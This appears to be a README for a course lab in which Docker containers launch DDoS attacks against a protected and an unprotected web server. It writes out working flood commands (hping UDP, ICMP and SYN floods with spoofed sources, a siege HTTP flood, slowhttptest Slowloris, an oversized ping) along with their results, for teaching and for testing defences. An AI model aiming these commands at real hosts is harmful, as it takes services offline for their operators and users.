 # HSA L14: DDoS Attacks

## Overview
This is an example project to show how to implement well-known DDos Attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death).
We will setup three docker containers:
1. Attacker Container - contains scripts that will implement 6 attacks (UDP flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death).
1. Defender container with protection.
1. Defender container without protection.

## Getting Started

### Preparation
1. Run the docker containers.
```bash
  docker-compose up -d
```

Be sure to use ```docker-compose down -v``` to clean up after you're done with tests.

2. Run the attacker container.
```bash
docker-compose run attacker bash
```

## Test scenarios

### UDP flood
#### Without DDoS protection:
```bash
$ hping -c 100000 -d 128 -w 64 --flood --rand-source --udp -p 8080 defender-0

--- defender-0 hping statistic ---
2916410 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8080 | head -1
HTTP/1.1 200 OK
```
#### With DDoS protection:
```bash
$ hping -c 100000 -d 128 -w 64 --flood --rand-source --udp -p 8081 defender-1

--- defender-1 hping statistic ---
2785135 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

### ICMP flood
#### Without DDoS protection:
```bash
$ hping defender-0 -c 1000 -d 128 -n -p 8080 --icmp --flood --rand-source

--- defender-0 hping statistic ---
1048299 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8080 | head -1
HTTP/1.1 200 OK
```
#### With DDoS protection:
```bash
$ hping defender-1 -c 1000 -d 128 -n -p 8081 --icmp --flood --rand-source

--- defender-1 hping statistic ---
893003 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

### HTTP flood
#### Without DDoS protection:
```bash
$ siege -b -c 500 -t 1m defender-0

$ curl -XGET localhost:8080
curl: (52) Empty reply from server
```
#### With DDoS protection:
```bash
siege -b -c 500 -t 1m defender-1

Transactions:		         643 hits
Availability:		        9.60 %
Elapsed time:		       40.56 secs
Data transferred:	        6.61 MB
Response time:		       16.18 secs
Transaction rate:	       15.85 trans/sec
Throughput:		        0.16 MB/sec
Concurrency:		      256.58
Successful transactions:         643
Failed transactions:	        6052
Longest transaction:	       24.49
Shortest transaction:	        0.00
```

### Slowloris
#### Without DDoS protection:
```bash
$ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://defender-0 -x 24 -p 3
Slow HTTP test status:

initializing:        0
pending:             0
connected:           10
error:               0
closed:              250
service available:   NO

$ curl -XGET localhost:8080
curl: (52) Empty reply from server
```
#### With DDoS protection:
```bash
$ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://defender-1 -x 24 -p 3
Slow HTTP test status:
initializing:        0
pending:             0
connected:           162
error:               0
closed:              838
service available:   YES

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

### SYN flood
#### Without DDoS protection:
```bash
$ hping defender-0 -p 8080 -c 1000 -d 128 -S -n --flood --rand-source

--- defender-0 hping statistic ---
2741951 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8080 | head -1
HTTP/1.1 200 OK
```
#### With DDoS protection:
```bash
$ hping defender-1 -p 8081 -c 1000 -d 128 -S -n --flood --rand-source

--- defender-1 hping statistic ---
2002331 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```

### Ping of Death
#### Without DDoS protection:
```bash
$ ping 172.16.238.20 -s 65488 -t 1 -n 1

--- 1 ping statistics ---
117 packets transmitted, 0 received, 100% packet loss, time 118789ms

$ curl -Is localhost:8080 | head -1
HTTP/1.1 200 OK
```
#### With DDoS protection:
```bash
$ ping 172.16.238.30 -s 65488 -t 1 -n 1

--- 1 ping statistics ---
200 packets transmitted, 0 received, 100% packet loss, time 162399ms

$ curl -Is localhost:8081 | head -1
HTTP/1.1 200 OK
```
